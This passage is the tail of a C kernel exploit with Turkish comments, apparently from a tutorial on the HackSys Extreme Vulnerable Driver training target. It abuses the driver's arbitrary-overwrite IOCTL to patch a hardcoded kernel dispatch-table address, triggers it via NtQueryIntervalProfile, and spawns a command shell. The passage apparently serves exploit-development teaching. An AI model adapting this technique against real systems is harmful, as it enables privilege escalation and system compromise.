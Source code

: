 ```c
		HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE,
		&Veri,
		sizeof(Veri),
		NULL,
		0,
		&Retval,
		NULL);

	//
	// Adresin üst kısmını yaz
	//
	Veri[0] = (ULONGLONG)((PCHAR)&Ne + 4);
	Veri[1] = 0xfffff80002847cb0 + 8 + 4;

	//
	// Hadi (b)akalım :P
	//
	Result = DeviceIoControl(
		hDeviceHandle,
		HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE,
		&Veri,
		sizeof(Veri),
		NULL,
		0,
		&Retval,
		NULL);

	printf("Evet, emaneti yolladik! Sonuc : %d\n", Result);

	//
	// Çağrıyı tetikle
	//
	a_NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryIntervalProfile");
	if (a_NtQueryIntervalProfile == NULL)
	{
		printf("Adresi alamiyoruz?!\n");
		goto RETURN;
	}

	//
	// TİK TAK TİK TAK
	//
	a_NtQueryIntervalProfile(0xBeBe, &Interval);
	system("cmd");

RETURN:

	if (hDeviceHandle)
	{
		CloseHandle(hDeviceHandle);
	}

	return 0;
}
```


[^1]: Sistemdeki önemli veri yapılarını korumakla görevli bir mekanizma.